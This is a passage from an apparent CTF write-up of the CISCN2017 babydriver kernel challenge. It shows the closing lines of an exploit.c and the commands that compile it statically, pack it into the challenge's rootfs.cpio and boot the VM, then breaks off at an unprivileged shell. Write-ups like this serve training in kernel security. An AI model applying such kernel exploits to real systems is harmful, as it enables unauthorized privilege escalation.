 ```C
		}

	}

	

	else

	{

		wait(NULL);

	}

	close(fd2);



	return 0;

}

```



#### get root shell

```bash

// statically compile the file, there is no libc in the kernel
CISCN2017_babydriver [master●●] gcc exploit.c -static -o exploit

CISCN2017_babydriver [master●●] file exploit

exploit: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=90aabed5497b6922fda3d5118e4aa9cb2fa5ccc5, not stripped

// Repackage rootfs.cpio in the directory where the compiled exp is extracted.
CISCN2017_babydriver [master●●] cp exploit core/tmp 

CISCN2017_babydriver [master●●] cd core 

core [master●●] find . | cpio -o --format=newc > rootfs.cpio

7017 block
core [master●●] cp rootfs.cpio ..

core [master ●●] cd ..
// kvm requires root privileges
CISCN2017_babydriver [master●●] sudo ./boot.sh

......

......



/ $ ls / tmp /
exploit

/ $ id

uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)

```